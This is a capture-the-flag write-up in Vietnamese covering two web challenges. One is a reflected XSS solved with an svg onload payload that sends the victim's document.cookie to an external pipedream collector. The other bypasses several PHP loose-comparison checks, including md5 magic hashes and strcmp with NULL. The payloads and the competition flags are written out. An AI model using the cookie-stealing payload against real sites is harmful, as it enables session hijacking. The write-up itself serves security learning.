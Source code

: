 # Web
## 1.Hi Hi Hi
    http://146.190.115.228:20109
### Solution:
+ Mình nhập thử text `hacked` thì thấy hiện trên Dom nên mình đoán có thể là lỗi reflect:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325544380_1539785776490524_506576420518357102_n.png?stp=dst-png_p403x403&_nc_cat=110&ccb=1-7&_nc_sid=aee45a&_nc_ohc=mxRJjvm2h5sAX-IFnMw&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdShnEbKx5Gp4lBumSBFoVxAwb74bLspb0fMNVfKDYhvdw&oe=63EDEAC8)
+ Mình thử nhập `<script>alert(10)</script>` thì bị filter:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325232288_1517370485416235_7328303388423511686_n.png?stp=dst-png_s240x240&_nc_cat=104&ccb=1-7&_nc_sid=aee45a&_nc_ohc=H8c6WsiYx8oAX-QqT_I&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdRiX6GujoIBAJpe-w_pNUJMuDinPcWTvP6VU6nypt-5YA&oe=63EDEFAB)
+ Sau mình dùng burpsuite thì thấy message in ra nằm trong thẻ div:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/324403300_562610902450716_1189522020715437705_n.png?stp=dst-png_p206x206&_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=6yIEw5U1lVIAX9zld-t&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdTY0ssYhl3oZNB1qfBO3-_ceuEbpJthnSPDJ7RMv_YsZg&oe=63EDE9DC)
+ Mình thử dùng thẻ img mà bị filter,sau mình dùng thẻ svg `<svg onload="alert(10)"/>` thì được thật:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325477432_2098078310381765_4736637555871183436_n.png?stp=dst-png_s320x320&_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=jKu7GXo4pP8AX9qvg-l&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdSkixswTyARzDg7zpDQLwZu4b0kxf1lCMFazZyQjhCN2A&oe=63EDF35D)
+ Nên mình thử lấy cookie của máy mình `<svg onload="window.location='https://eoudjoqqnbfym00.m.pipedream.net/?cookie='.concat(document.cookie)"/>` thi get duoc cookie:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/323534900_8642520609151521_3244213864135894936_n.png?stp=dst-png_p206x206&_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=lRuhKcBSIhoAX97nNtA&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdQ6GC-6hq-578_lPfn9EAdr3iu_mZKfmt4P1PExbJeDzA&oe=63EDCE99)
+ Nên mình thử gửi report luôn payload:
`http://127.0.0.1:13337/?message=http://146.190.115.228:20109/?message=%3Csvg+onload%3D%22window.location%3D%27https%3A%2F%2Fexxxxxxxxxxxx00.m.pipedream.net%2F%3Fcookie%3D%27.concat%28document.cookie%29%22%2F%3E` thì nhận được flag.

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325683778_853163225933721_2454076518486329042_n.png?stp=dst-png_p206x206&_nc_cat=110&ccb=1-7&_nc_sid=aee45a&_nc_ohc=P1Ocdj5eECoAX8E_sJb&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdQxmVbprZ3IDsyaHAJItwRZj36LoTcpkwy5tE0aWTvcgg&oe=63EDD4F2)

> Flag: KCSC{T3T_TU1_3_T13P_Hmmmmmmmm}
## 2.Phpri Phprai
### Topic:
    http://47.254.251.2:8889
### Solution:
+ Mình truy cập vào trang web thì thấy source code:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/322813543_1179131372737339_4021760199972033425_n.png?stp=dst-png_p228x119&_nc_cat=106&ccb=1-7&_nc_sid=aee45a&_nc_ohc=kzIGxc6LX0oAX8wVo0k&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdQ0pDRhJwl1xoOZ4DNMhqm5AJgWz_iahHVSKtjdVAanmg&oe=63EED9DD)

+ Mình thấy bài này là vượt qua so sánh lỏng lẻo toán tử `==` của php,nên hãy đi bắt đầu từng flag:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/323049955_1327220921429635_4229566663682593967_n.jpg?stp=dst-jpg_p206x206&_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=Lcd4g8J_lGoAX-RqqVg&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdRFYD-bdfjM6ropJDxHuvzxggRzmoK72VmfrsdphIRYoQ&oe=63EEF117)
+ Flag1

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/322599078_1176725533214479_1578787794598973144_n.png?_nc_cat=106&ccb=1-7&_nc_sid=aee45a&_nc_ohc=ydTON2wPZRIAX_7rKvM&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdRIaiiVahXLjyyH7KTnA_TlnvuGQpWo215GqAkf351Yqg&oe=63EEE60D)

    Bài này là đê vượt qua vòng if thì phải nhập vào 2 chuỗi có giá trị khác nhau nhưng md5 thì phải bằng nhau,
    mình search có dạng đặc biệt đó là 
    md5('240610708') == md5('QNKCDZO')
    Mình gửi ?1=240610708&2=QNKCDZO nhận được flag1
> Flag1 : KCSC{B0_u_Bu_S4
+ Flag2:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/324526603_683025153523892_8768434602679411762_n.png?_nc_cat=101&ccb=1-7&_nc_sid=aee45a&_nc_ohc=OkbGC3AcaFkAX_o2Dd6&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdTg8QqHKvVIpWSLdX6eAioChsi6QkXI0fsJBLIUJ1DzGQ&oe=63EF0B34)

    Ở đây là so sanh chuỗi mình truyển vào với $$flag phải bằng 0.
    Mình thấy $$flag nó sẽ trả về "" vì chắc kh có khai báo $(value của flag) 
    Mình chỉ cần truyền cho giá trị vào là NULL nữa là ok
    strcmp(NULL, "") => 0
    Chỗ này mình nhập ?3=
> Flag2 : C_8usssssss_htt
+ Flag3:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/324453455_555571979835563_7248040904010364804_n.png?_nc_cat=106&ccb=1-7&_nc_sid=aee45a&_nc_ohc=I9okEdn0B1wAX93-8O6&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdRDg8ai1aUoXHKYuWJUPa8fgNmXoXD9M1ZqoQ4lLWtchw&oe=63EEEA82)

    Chỗ này mình thấy chỗ đầu so sánh giá trị nhập vào phải bằng 1.4e5 mà so sánh chặt thì bắt buộc phải khác
    Mình sẽ chuyển đổi 1.4e5 sang hệ 10 là 140000 
    Chỗ này mình nhập ?4=140000 
> Flag3: ps://www.youtub
+Flag4:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/324719822_891765618666228_2347351895924653674_n.png?_nc_cat=109&ccb=1-7&_nc_sid=aee45a&_nc_ohc=yB6DdA054yQAX8eCOAb&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdTTRkDgM1a737zX90jbwF7x7CX4jTzumZNSwL_QWbIPLg&oe=63EF086A)

    Ý này là nhập vào chuỗi phải == 69 và phải !== 69 và '69'
    Ở đây có thêm hàm trim loại bỏ khoảng trắng 2 đầu và bắt buộc phải có 2 kí tự
    Nên mình thử gửi ?4= 69 ở đây các bạn phải có thêm khoảng trắng ở giữa khi url encode sẽ chuyển thành %20 
    hoặc bạn có thể thử với ?4=+69
> Flag4 : e.com/watch?v=x
+ Flag5:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/322015460_880947103330654_5389033022234246472_n.png?_nc_cat=100&ccb=1-7&_nc_sid=aee45a&_nc_ohc=IjgZsVswdyMAX9TCyD2&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdSf6H_VmjqwGiCPzDDTHd7nQ_NUcOREkjMxRuqzcSQj9w&oe=63EF0AD6)

    Chỗ này thì bắt chúng ta nhập mỗi chuỗi phải bằng KaCeEtCe 
    Nhưng trước lúc đó thì preg_replace("/$var1/", '', $str6) đã chuyển chuỗi đó thành ''
    Mình chỉ cần truyền giá trị chuỗi vào nằm trong KaCe${var1}EtCe
    ở đây bạn truyền vào chỗ nào cũng được miễn là nằm ở trong chuỗi đó
    Ở đây mình nhập ?6=KKaCeEtCeaCeEtCe

> Flag5:QtC3F8fH6g}

Gộp 5 flag lại với nhau ta được flag cuối cùng
> Flag: KCSC{B0_u_Bu_S4C_8usssssss_https://www.youtube.com/watch?v=xQtC3F8fH6g}



